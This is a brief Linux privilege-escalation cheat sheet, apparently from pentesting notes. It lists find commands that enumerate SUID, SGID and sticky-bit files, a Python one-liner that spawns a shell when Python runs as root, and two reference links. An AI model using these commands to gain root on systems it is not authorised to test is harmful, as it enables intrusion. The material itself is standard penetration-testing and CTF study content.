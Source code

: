 # 🐧 Privilege escalation: Linux

### **Linux:**

Find Binaries that will execute as the owner

* ```
  find / -perm -u=s -type f 2>/dev/null
  ```

Find binaries that will execute as the group

* ```
  find / -perm -g=s -type f 2>/dev/null
  ```

Find sticky-bit binaries

* ```
  find / -perm -1000 -type d 2>/dev/null
  ```

If Python is executable as root

* ```
  python2.7 -c "import pty;pty.spawn('/bin/sh');"
  ```

[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
